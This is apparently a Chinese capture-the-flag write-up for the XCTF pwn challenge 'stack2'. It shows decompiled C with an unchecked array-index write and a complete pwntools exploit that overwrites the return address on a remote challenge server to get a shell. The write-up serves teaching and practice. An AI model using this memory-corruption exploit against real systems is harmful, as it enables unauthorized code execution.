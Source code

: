 ```c
      }
      if ( v6 != 3 )
        break;
      puts("which number to change:");
      __isoc99_scanf("%d", &v5);
      puts("new number:");
      __isoc99_scanf("%d", &v7);
      v13[v5] = v7; // 这里未检查数组长度，存在数组越界，直接修改EIP到hackhere => 0x0804859B
    }
    if ( v6 != 4 )
      break;
    v9 = 0;
    for ( l = 0; l < j; ++l )
      v9 += v13[l];
  }
  return 0;
}
```
0x84偏移可以直接在ida看。或者看xctf_pwn_stack2.pdf 动态调试。
exp: 
```python
#coding:utf8
 
from pwn import *
# context.log_level = 'debug'
 
process_name = './fcca8ceb507544d1bd9c4a7925907a1d'
# p = process(process_name)
p = remote('111.198.29.45', 30172)
 
 
hackhere = [0x9b, 0x85, 0x04, 0x08]  #0x0804859B
write_offset = 0x84
 
def change_number(offset, value):
  p.sendlineafter('5. exit', '3')
  p.sendlineafter('which number to change:', str(offset))
  p.sendlineafter('new number:', str(value))
 
p.sendlineafter('How many numbers you have:', '1')
p.sendlineafter('Give me your numbers', '1')
for i in range(4):
  change_number(write_offset+i, hackhere[i])
 
p.sendlineafter('5. exit', '5')
 
 
p.interactive()
```
提示程序中没有/bin/sh 但是有/bin/bash,构造system(sh)
